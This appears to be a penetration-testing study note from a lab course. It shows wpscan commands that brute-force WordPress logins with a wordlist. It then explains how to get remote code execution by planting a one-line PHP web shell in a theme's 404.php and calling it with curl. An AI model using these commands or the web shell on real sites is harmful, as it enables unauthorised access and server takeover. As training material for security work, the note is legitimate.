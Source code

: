 ```bash
wpscan --password-attack xmlrpc -t 20 -U admin, david -P passwords.txt --url http://blog.inlanefreight.com
```

Another command:
```bash
wpscan  --url http://blog.inlanefreight.local/ -U erika --passwords Tools/Wordlists/rockyou.txt
```

# RCE via theme editor

With administrative access to WordPress, we can modify the PHP source code to execute system commands. To perform this attack:
- Log in to WordPress with the administrator credentials, which should redirect us to the admin panel;
- Click on Appearance on the side panel and select Theme Editor. This page will allow us to edit the PHP source code directly;
- We should select an inactive theme in order to avoid corrupting the main theme.

We can see that the active theme is Transportex so an unused theme such as Twenty Seventeen should be chosen instead.

Choose a theme and click on Select. Next, choose a non-critical file such as 404.php to modify and add a web shell.

Twenty Seventeen Theme - 404.php:

```bash
<?php

system($_GET['cmd']);

/**
 * The template for displaying 404 pages (not found)
 *
 * @link https://codex.wordpress.org/Creating_an_Error_404_Page
<SNIP>
```

The above code should allow us to execute commands via the GET parameter cmd. In this example, we modified the source code of the 404.php page and added a new function called system(). This function will allow us to directly execute operating system commands by sending a GET request and appending the cmd parameter to the end of the URL after a question mark ? and specifying an operating system command. The modified URL should look like this **404.php?cmd=id**.

```bash
curl -X GET "http://<target>/wp-content/themes/twentyseventeen/404.php?cmd=id"
```

<br>
<br>
<br>
<br>

# WordPress hardening
